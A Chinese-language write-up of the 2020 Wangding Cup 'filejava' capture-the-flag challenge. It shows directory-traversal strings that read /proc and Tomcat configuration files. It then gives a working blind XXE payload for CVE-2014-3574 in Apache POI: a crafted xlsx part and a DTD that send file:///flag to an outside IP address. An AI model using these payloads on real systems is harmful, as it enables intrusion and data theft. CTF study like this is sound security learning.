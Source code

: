 # \[网鼎杯 2020 青龙组]filejava

## \[网鼎杯 2020 青龙组]filejava

## 考点

* 任意文件下载
* Java代码审计
* blind xxe
* CVE-2014-3574

## wp

文件上传功能，上传之后有个文件下载功能

![](<../.gitbook/assets/image (24) (1) (1).png>)

![](<../.gitbook/assets/image (12) (1).png>)

有文件下载，尝试下载`/proc/self/cmdline`，多次测试发现下载链接是`../../../../../../../../../proc/self/cmdline`

![](<../.gitbook/assets/image (26).png>)

再读取`../../../../../../../../../proc/self/environ`

![](<../.gitbook/assets/image (34) (1).png>)

可以发现Tomcat的目录是`/usr/local/tomcat/`，可以读取Tomcat的`web.xml`，`../../../../../../../../../usr/local/tomcat/conf/web.xml`，它定义了系统的Servlet规范

然后读取web应用程序的web.xml，`../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml`，其中定义了web程序的Servlet规范

{% code title="WEB-INF/web.xml" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>DownloadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.DownloadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>DownloadServlet</servlet-name>
        <url-pattern>/DownloadServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>ListFileServlet</servlet-name>
        <servlet-class>cn.abc.servlet.ListFileServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>ListFileServlet</servlet-name>
        <url-pattern>/ListFileServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>UploadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.UploadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>UploadServlet</servlet-name>
        <url-pattern>/UploadServlet</url-pattern>
    </servlet-mapping>
</web-app>
```
{% endcode %}

依次下载源码，用jd-gui反编译得到源码

ListFileServlet是获取/WEB-INF/upload目录下的文件

DownloadServlet是下载filename传入的文件，它不能是空且不包含flag字符串，然后返回文件内容

{% code title="UploadServlet" %}
```java
......
        if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }  
......
```
{% endcode %}

代码中对上传文件做了判断，如果文件名以`excel-`开头，且以`xlsx`作为后缀，就使用`org.apache.poi.ss.usermodel.WorkbookFactory`类进行操作，这里是有个cve，即CVE-2014-3574。

新建`excel-test.xlsx`文件，然后解压

![](<../.gitbook/assets/image (37) (1).png>)

修改`[Content_Types].xml`为如下内容

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://81.68.218.54:20010/file.dtd">
%remote;%int;%send;
]>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types"><Default Extension="bin" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.printerSettings"/><Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/><Default Extension="xml" ContentType="application/xml"/><Override PartName="/xl/workbook.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.sheet.main+xml"/><Override PartName="/xl/worksheets/sheet1.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/worksheets/sheet2.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/worksheets/sheet3.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/theme/theme1.xml" ContentType="application/vnd.openxmlformats-officedocument.theme+xml"/><Override PartName="/xl/styles.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.styles+xml"/><Override PartName="/docProps/core.xml" ContentType="application/vnd.openxmlformats-package.core-properties+xml"/><Override PartName="/docProps/app.xml" ContentType="application/vnd.openxmlformats-officedocument.extended-properties+xml"/></Types>
```

vps上的dtd文件如下，再监听端口

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://81.68.218.54:20011?p=%file;'>">
```

然后重新打包为xlsx文件，这里就直接右键->7z打开压缩包，再右键编辑

![](<../.gitbook/assets/image (21) (1).png>)

保存直接上传即可

![](<../.gitbook/assets/image (36).png>)

## 小结

1. blind XXE
2. Tomcat目录结构
